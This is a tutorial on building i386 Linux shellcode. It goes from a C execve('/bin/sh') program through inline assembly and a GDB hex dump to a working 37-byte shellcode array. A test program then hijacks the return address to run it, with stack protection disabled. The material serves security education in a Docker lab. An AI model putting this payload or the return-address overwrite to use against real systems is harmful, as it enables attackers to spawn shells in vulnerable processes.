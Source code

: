 # Building shellcode

The term *shellcode* is typically used to refer to that piece of code which allows to spawn a command line in the targeting system. This can be done from any process in execution provided it invokes the right call. This tutorial will focus on understanding a *shellcode* for i386 systems and how it's typically used.

----

**Note**: as in previous tutorials, there's a docker container that facilitates reproducing the work of this tutorial. The container can be built with:
```bash
docker build -t basic_cybersecurity2:latest .
```
and runned with:
```bash
docker run --privileged -it basic_cybersecurity2:latest
```

----

The code to spawn a shell in C looks like (`shellcode.c`):

```C
#include <stdio.h>

void main() {
   char *name[2];

   name[0] = "/bin/sh";
   name[1] = NULL;
   execve(name[0], name, NULL);
}
```
executing, it clearly gives us a shell:
```bash
root@1406e08c64b9:~# ./shellcode
#
```

Reading through literature [2], one can summarize that this C program consist of the following steps in assembly:

- a) Have the null terminated string "/bin/sh" somewhere in memory.
- b) Have the address of the string "/bin/sh" somewhere in memory followed by a null long word.
- c) Copy 0xb into the EAX register.
- d) Copy the address of the address of the string "/bin/sh" into the EBX register.
- e) Copy the address of the string "/bin/sh" into the ECX register.
- f) Copy the address of the null long word into the EDX register.
- g) Execute the int $0x80 instruction.
- h) Copy 0x1 into the EAX register.
- i) Copy 0x0 into the EBX register.
- j) Execute the int $0x80 instruction.

From [3], we can put together the following complete program assembled together in C (`shellcodeasm.c`):
```C
void main() {
__asm__(" \
          xor     %eax,       %eax; \
          xor     %edx,       %edx; \
          movb    $11,        %al; \
          push    %edx; \
          push    $0x68732f6e; \
          push    $0x69622f2f; \
          mov     %esp,       %ebx; \
          push    %edx; \
          push    %ebx; \
          mov     %esp,       %ecx; \
          int     $0x80; \
          movl   $0x1, %eax; \
          movl   $0x0, %ebx;  \
          int    $0x80;");
}
```

executing, it clearly gives us a shell:
```bash
root@1406e08c64b9:~# ./shellcodeasm
#
```
and disassembling it, we obtain the same (plus the corresponding instructions for the stack management at the beginning and end):
```
>>> disassemble main
Dump of assembler code for function main:
   0x080483ed <+0>:	push   %ebp
   0x080483ee <+1>:	mov    %esp,%ebp
   0x080483f0 <+3>:	xor    %eax,%eax
   0x080483f2 <+5>:	xor    %edx,%edx
   0x080483f4 <+7>:	mov    $0xb,%al
   0x080483f6 <+9>:	push   %edx
   0x080483f7 <+10>:	push   $0x68732f6e
   0x080483fc <+15>:	push   $0x69622f2f
   0x08048401 <+20>:	mov    %esp,%ebx
   0x08048403 <+22>:	push   %edx
   0x08048404 <+23>:	push   %ebx
   0x08048405 <+24>:	mov    %esp,%ecx
   0x08048407 <+26>:	int    $0x80
   0x08048409 <+28>:	mov    $0x1,%eax
   0x0804840e <+33>:	mov    $0x0,%ebx
   0x08048413 <+38>:	int    $0x80
   0x08048415 <+40>:	pop    %ebp
   0x08048416 <+41>:	ret    
End of assembler dump.
```
Now, a more compact version of the shellcode can be obtained by fetching the hexadecimal representation of all those assembly instructions above which can be obtained by directly looking at the memory:
```
>>> x/37bx 0x080483f0
0x80483f0 <main+3>:	0x31	0xc0	0x31	0xd2	0xb0	0x0b	0x52	0x68
0x80483f8 <main+11>:	0x6e	0x2f	0x73	0x68	0x68	0x2f	0x2f	0x62
0x8048400 <main+19>:	0x69	0x89	0xe3	0x52	0x53	0x89	0xe1	0xcd
0x8048408 <main+27>:	0x80	0xb8	0x01	0x00	0x00	0x00	0xbb	0x00
0x8048410 <main+35>:	0x00	0x00	0x00	0xcd	0x80
```
a total of 37 bytes of *shellcode*. Let's try it out:
```C
char shellcode[] =
      "\x31\xc0\x31\xd2\xb0\x0b\x52\x68"
      "\x6e\x2f\x73\x68\x68\x2f\x2f\x62"
      "\x69\x89\xe3\x52\x53\x89\xe1\xcd"
      "\x80\xb8\x01\x00\x00\x00\xbb\x00"
      "\x00\x00\x00\xcd\x80";

void main() {
   int *ret;    // a variable that will hold the return address in the stack

   ret = (int *)&ret + 2; // obtain the return address from the stack
   (*ret) = (int)shellcode; // point the return address to the shellcode
}
```
Code is self-explanatory, a local variable `ret` gets pointed to the return address which later gets modified to point at the global variable `shellcode` which contains the previously derived shell code. To make this work in a simple manner, we will disable gcc's stack protection mechanism producing:
```bash
root@51b56809b3b6:~# ./test_shellcode
#
```

### Bibliography

- [1] M. Hicks (2014), *Software Security*, Coursera, Cybersecurity Specialization, University of Maryland, College Park, <https://www.coursera.org/learn/software-security>.
- [2] A. One (1996), Smashing the Stack for Fun and Profit. Phrack, 7. Retrieved from http://insecure.org/stf/smashstack.html.
- [3] P. Clement (2011), *execve("/bin//sh", ["/bin//sh"], NULL) - Linux elf32-i386*. Retrieved from https://blog.thireus.com/execvebinsh-binsh-null/
